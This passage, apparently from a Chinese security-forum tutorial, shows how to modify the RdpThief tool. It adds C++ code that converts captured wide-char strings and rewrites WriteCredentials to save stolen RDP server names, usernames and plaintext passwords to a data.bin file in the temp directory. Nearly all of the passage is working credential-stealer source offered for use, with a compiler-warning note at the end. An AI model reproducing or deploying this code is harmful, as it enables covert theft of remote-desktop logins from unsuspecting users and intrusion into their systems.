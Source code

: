 ```cpp
    CloseHandle(hFile);
}
```

它使用 unicode（wchar）编码的，所以我们可以考虑，把 wchar 转成 char 试试。

直接修改`RdpThief.cpp`，首先增加三行代码，因为用到了`string`和`ofstream`

```cpp
#include <iostream>
#include <fstream>
using namespace std;
```

然后增加一个 wchar 转 char 的方法，这里用到了[WideCharToMultiByte](https://docs.microsoft.com/en-us/windows/win32/api/stringapiset/nf-stringapiset-widechartomultibyte) 函数

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-efbf557e253c7ba0e83ca95d7d0ab12182177567.png)

```cpp
char* UnicodeToChar(LPCWSTR unicode_str)
{
    int num = WideCharToMultiByte(CP_OEMCP, NULL, unicode_str, -1, NULL, 0, NULL, FALSE);
    char* pchar = (char*)malloc(num);
    WideCharToMultiByte(CP_OEMCP, NULL, unicode_str, -1, pchar, num, NULL, FALSE);
    return pchar;
}
```

剩下的就是写文件了，先把原来的`WriteCredentials`方法注释掉，然后加入以下的方法。

```cpp
VOID WriteCredentials() 
{
    // 获取临时目录，并转换成char*
    TCHAR wtempPath[MAX_PATH];
    DWORD dwSize = 50;
    GetTempPath(dwSize, wtempPath);
    char tempPath[MAX_PATH];
    wcstombs(tempPath, wtempPath, wcslen(wtempPath) + 1);

    string temp_path(&tempPath[0], &tempPath[strlen(tempPath)]);

    // 打开临时文件
    ofstream f_temp(temp_path + "data.bin");
    if (f_temp) {
        f_temp << "Server: " << UnicodeToChar(lpServer) << "\nUsername:" << UnicodeToChar(lpUsername) << "\nPassword: " << UnicodeToChar(lpTempPassword) << "\n\n";
    }
    f_temp.close();
}
```

因为这里用了`wcstombs`，vs 可能会报错如下：

```php
'wcstombs': This function or variable may be unsafe. Consider using wcstombs_s instead. To disable deprecation, use _CRT_SECURE_NO_WARNINGS. See online help for details.
```
